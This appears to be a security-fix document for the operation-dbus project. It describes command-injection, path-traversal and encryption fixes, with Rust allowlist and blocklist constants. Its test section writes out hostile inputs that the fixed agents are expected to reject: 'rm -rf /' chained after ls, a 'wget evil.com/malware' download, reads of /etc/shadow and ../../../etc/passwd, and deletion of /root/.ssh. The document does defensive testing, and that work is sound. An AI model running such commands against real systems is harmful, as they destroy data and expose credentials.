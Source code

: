 # Critical Security Fixes Applied

## Summary
This document details the critical security vulnerabilities that were identified and fixed in the operation-dbus codebase.

## Fixed Vulnerabilities

### 1. ✅ Command Injection in Executor Agent (CRITICAL)
**File:** `src/mcp/agents/executor.rs`  
**Issue:** Direct shell execution without input validation allowed arbitrary command execution  
**Fix Applied:**
- Implemented command allowlist (only safe commands permitted)
- Added input validation to prevent shell metacharacters
- Removed shell invocation, using direct command execution
- Added argument validation and length limits
- Implemented execution timeouts

**Security Controls Added:**
```rust
const ALLOWED_COMMANDS: &[&str] = &[
    "ls", "cat", "grep", "ps", "top", "df", "du", "free", "uptime",
    "whoami", "date", "hostname", "pwd", "echo", "wc", "sort", "head", "tail"
];
const FORBIDDEN_CHARS: &[char] = &['$', '`', ';', '&', '|', '>', '<', '(', ')', '{', '}'];
const MAX_COMMAND_LENGTH: usize = 1024;
const DEFAULT_TIMEOUT_SECS: u64 = 30;
```

### 2. ✅ Path Traversal in File Agent (CRITICAL)
**File:** `src/mcp/agents/file.rs`  
**Issue:** No path validation allowed access to sensitive files via directory traversal  
**Fix Applied:**
- Path canonicalization to resolve `..` and symlinks
- Whitelist of allowed directories
- Blacklist of forbidden paths and files
- File size limits (10MB max)
- Path length validation

**Security Controls Added:**
```rust
const ALLOWED_DIRECTORIES: &[&str] = &["/home", "/tmp", "/var/log", "/opt"];
const FORBIDDEN_DIRECTORIES: &[&str] = &["/etc", "/root", "/boot", "/sys", "/proc"];
const FORBIDDEN_FILES: &[&str] = &[".ssh/id_rsa", ".ssh/authorized_keys", "shadow", "passwd"];
const MAX_FILE_SIZE: u64 = 10 * 1024 * 1024; // 10MB
```

### 3. ✅ Encryption for Sensitive State Data (HIGH)
**File:** `src/state/crypto.rs` (NEW)  
**Issue:** State files stored in plain text could expose sensitive configuration  
**Fix Applied:**
- AES-256-GCM encryption for state files
- Argon2 key derivation for password-based encryption
- Secure key storage with proper file permissions
- Atomic file operations to prevent corruption
- Migration tool for existing plain-text states

**Security Features:**
- 256-bit AES encryption
- Authenticated encryption (GCM mode)
- Random nonce generation for each encryption
- Password-based key derivation with salt
- Key file permissions set to 600 (owner only)

## Additional Security Improvements Needed

### High Priority (Implement Next)
1. **Rate Limiting** - Add rate limiting to web endpoints
2. **Input Validation** - Schema validation for MCP protocol
3. **Authentication** - Add authentication for agent communication
4. **Audit Logging** - Comprehensive audit trail for all operations

### Medium Priority
1. **Sandboxing** - Run agents in restricted environments
2. **Resource Limits** - CPU and memory limits for agents
3. **Session Management** - Proper session handling for web interface
4. **CORS Configuration** - Restrict cross-origin requests

## Testing the Fixes

### Command Injection Test
```bash
# These should now fail:
echo '{"type":"execute","command":"ls; rm -rf /"}' | ./dbus-agent-executor
echo '{"type":"execute","command":"cat /etc/shadow"}' | ./dbus-agent-executor
echo '{"type":"execute","command":"wget evil.com/malware"}' | ./dbus-agent-executor

# These should work:
echo '{"type":"execute","command":"ls","args":["-la"]}' | ./dbus-agent-executor
echo '{"type":"execute","command":"ps","args":["aux"]}' | ./dbus-agent-executor
```

### Path Traversal Test
```bash
# These should now fail:
echo '{"type":"file","operation":"read","path":"../../../etc/passwd"}' | ./dbus-agent-file
echo '{"type":"file","operation":"read","path":"/etc/shadow"}' | ./dbus-agent-file
echo '{"type":"file","operation":"delete","path":"/root/.ssh"}' | ./dbus-agent-file

# These should work (if within allowed directories):
echo '{"type":"file","operation":"read","path":"/tmp/test.txt"}' | ./dbus-agent-file
echo '{"type":"file","operation":"list","path":"/home/user"}' | ./dbus-agent-file
```

### Encryption Test
```rust
// Test encryption
use op_dbus::state::crypto::StateEncryption;

let encryption = StateEncryption::from_key_file(Path::new("/etc/op-dbus/key"))?;
let state = load_state()?;
save_encrypted(&state, Path::new("/etc/op-dbus/state.enc"), &encryption)?;
```

## Security Best Practices Going Forward

1. **Principle of Least Privilege** - Agents should only have minimum required permissions
2. **Defense in Depth** - Multiple layers of security controls
3. **Input Validation** - Always validate and sanitize user input
4. **Secure by Default** - Security should be opt-out, not opt-in
5. **Regular Audits** - Periodic security reviews and penetration testing

## Compliance Status

- [x] OWASP A03:2021 - Injection (Fixed)
- [x] OWASP A01:2021 - Broken Access Control (Fixed)
- [x] OWASP A02:2021 - Cryptographic Failures (Fixed)
- [ ] OWASP A07:2021 - Identification and Authentication Failures (TODO)
- [ ] OWASP A05:2021 - Security Misconfiguration (Partial)

## Next Steps

1. Deploy fixes to all environments
2. Update all agent configurations
3. Migrate existing state files to encrypted format
4. Implement remaining high-priority security controls
5. Schedule security audit for verification

## Contact

For security concerns or vulnerability reports, please contact: security@example.com

---
**Last Updated:** October 27, 2024  
**Review Status:** Critical fixes applied, additional hardening recommended